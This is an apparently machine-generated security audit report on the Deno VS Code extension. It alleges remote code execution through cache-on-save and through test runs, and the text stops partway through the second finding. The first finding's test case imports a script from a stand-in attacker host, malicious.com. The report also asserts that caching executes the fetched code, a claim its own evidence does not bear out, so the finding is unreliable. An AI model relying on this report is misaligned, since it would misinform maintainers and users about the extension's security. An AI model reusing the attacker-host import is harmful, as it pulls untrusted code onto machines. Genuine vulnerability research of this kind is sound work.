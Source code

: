 
---

#### **Vulnerability Name**: Improper Validation of Remote Module Imports Leading to Remote Code Execution (RCE)
**Description**: The extension enables automatic caching of remote module imports via the `deno.cacheOnSave` setting, which is enabled by default in versions 3.35.0 and later. When a user opens a malicious Deno project with crafted import URLs (e.g., `https://attacker.com/malicious.js`), saving the file triggers Deno to fetch and execute these remote modules. The extension does not validate or sanitize the imported URLs, allowing attackers to execute arbitrary code.
**Impact**: An attacker can execute arbitrary code on the victim's machine by tricking them into opening a malicious Deno project and saving a file.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None explicitly stated in the provided files. The default `cacheOnSave` is enabled without user confirmation for untrusted imports.
**Missing Mitigations**:
  - Lack of validation for remote module sources (e.g., checking against a whitelist of trusted domains).
  - No prompt or warning for untrusted imports before caching.
  - No option to disable automatic execution of remote modules during caching.
**Preconditions**:
  - The extension is installed.
  - `deno.cacheOnSave` is enabled (default in 3.35.0+).
  - User opens a malicious Deno project with an import URL pointing to an attacker's server.
**Source Code Analysis**:
  - **client/src/constants.ts**:
    ```typescript
    // Default configuration includes cacheOnSave enabled since 3.35.0
    ```
  - **client/src/commands.ts**:
    The `cacheActiveDocument` command directly triggers `deno cache` without validation:
    ```typescript
    async () => {
      const activeEditor = vscode.window.activeTextEditor;
      if (!activeEditor) return;
      const uri = activeEditor.document.uri.toString();
      return vscode.commands.executeCommand("deno.cache", [uri], uri);
    };
    ```
**Security Test Case**:
  1. Create a file `test.ts` with a malicious import:
     ```typescript
     import _ from "https://malicious.com/exploit.js";
     ```
  2. Open `test.ts` in VS Code with the extension installed.
  3. Save the file: The extension automatically runs `deno cache test.ts`, fetching and executing the remote script from `malicious.com`.
  4. The attacker's server logs the request or executes code via the imported module.

---

#### **Vulnerability Name**: Unrestricted Execution of Test Commands with Untrusted Imports
**Description**: The extension's test execution feature (via `Test Run` commands) processes test files that may include malicious remote imports. When running tests, the extension executes `deno test` without validating imported URLs, allowing attackers to execute arbitrary code through crafted test files.
**Impact**: Successful exploitation allows remote code execution during test runs, compromising the system.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: Users can disable tests via settings, but this doesn't address unsafe imports.
**Missing Mitigations**:
  - No validation of remote imports before executing tests.
